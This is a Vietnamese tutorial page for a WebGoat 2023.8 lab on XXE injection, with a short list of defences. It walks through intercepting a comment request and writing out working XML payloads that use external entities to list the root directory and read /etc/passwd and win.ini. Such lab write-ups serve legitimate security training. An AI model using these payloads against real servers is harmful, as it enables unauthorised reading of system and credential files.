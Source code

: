 ```yaml
---
title: 1.04 | XXE
slug: XXE-04
description: Bài viết này sẽ hướng dẫn cách tấn công XXE trên WebGoat 2023.8
image: https://tiennhm.github.io/img/docs/database.jpg
sidebar_position: 1
# sidebar_class_name: hidden
tags: 
    - web-security
    - webgoat
    - security-misconfiguration
    - xxe
    - webgoat-2023.8
keywords: [web-security, webgoat, security-misconfiguration, xxe, webgoat-2023.8]
enableComments: true # for Gisqus comments, set to true
draft: false # set to true to hide this post from the site
---
```


> 🛠 **XXE Injection - Thử nghiệm khai thác**

## 📌 **1. Mục tiêu của bài thực hành**
- Gửi bình luận trên ảnh và thử thực hiện **XXE Injection**.
- Mục tiêu: **liệt kê thư mục gốc** (`/` trên Linux, `C:\` trên Windows).
- Dùng **Burp Suite, ZAP Proxy** hoặc **DevTools** để phân tích request.


## 🔥 **2. Cách thực hiện**
### **📌 Bước 1: Gửi bình luận bình thường**  
Trước tiên, thử gửi một bình luận bình thường để xem request được gửi như thế nào.

Ví dụ:
```xml
<comment>
  <text>I am a cat</text>
</comment>
```
🔍 **Phân tích format XML của request này.**  


### **📌 Bước 2: Dùng Burp/ZAP để chặn request**
1. **Mở Burp Suite hoặc ZAP**.
2. **Bật Intercept Mode (Burp) hoặc Breakpoint (ZAP)**.
3. **Gửi một bình luận**.
4. **Phân tích request được gửi đi**.


### **📌 Bước 3: Thay đổi request để thực hiện XXE Injection**  
👉 Thay đổi phần `text` thành:
```xml
<?xml version="1.0"?>
<!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]>
<comment>
  <text>&xxe;</text>
</comment>
```
📌 **Giải thích:**  
- `<!DOCTYPE comment [...]>`: Khai báo **DOCTYPE** để có thể sử dụng `ENTITY`.
- `<!ENTITY xxe SYSTEM "file:///">`: Định nghĩa một entity để đọc thư mục gốc `/`.
- `<text>&xxe;</text>`: Chèn entity vào nội dung bình luận.


## 🔎 **3. Kiểm tra phản hồi của server**
- Nếu server trả về danh sách thư mục (`bin, etc, home, root...`), **XXE Injection thành công**.
- Nếu không có phản hồi hoặc có lỗi, có thể server đã **vô hiệu hóa DTD** hoặc **bảo vệ XXE**.


## 🚨 **4. Phòng chống XXE**
✅ **Vô hiệu hóa DOCTYPE trong XML parser**  
✅ **Không cho phép đọc external entities (`SYSTEM "file:///"`)**  
✅ **Sử dụng JSON thay vì XML nếu có thể**  
✅ **Dùng WAF để phát hiện payload chứa `<!ENTITY`**  


## 📢 **Bạn có thể thử nghiệm với các file khác:**
```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">  <!-- Linux -->
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">  <!-- Windows -->
```
